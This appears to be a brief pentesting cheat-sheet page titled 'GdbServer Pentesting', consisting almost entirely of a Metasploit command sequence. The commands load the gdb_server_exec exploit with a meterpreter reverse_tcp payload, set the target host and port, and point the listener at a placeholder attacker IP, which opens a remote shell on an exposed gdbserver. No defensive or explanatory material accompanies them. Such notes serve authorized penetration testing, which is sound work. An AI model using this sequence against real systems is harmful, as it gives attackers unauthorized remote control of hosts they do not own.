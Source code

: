 ```yaml
---
title: GdbServer Pentesting
description: 
tags:
    - Reverse Engineering
refs:
date: 2024-07-17
draft: false
---
```


## Reverse Shell with Metasploit

```bash
msfconsole
msf> use exploit/multi/gdb/gdb_server_exec
msf> set payload linux/x64/meterpreter/reverse_tcp
msf> set rhost <target-ip>
msf> set rport <target-port>
msf> set lhost <attacker-ip>
msf> set lport <attacker-port>
msf> run
```
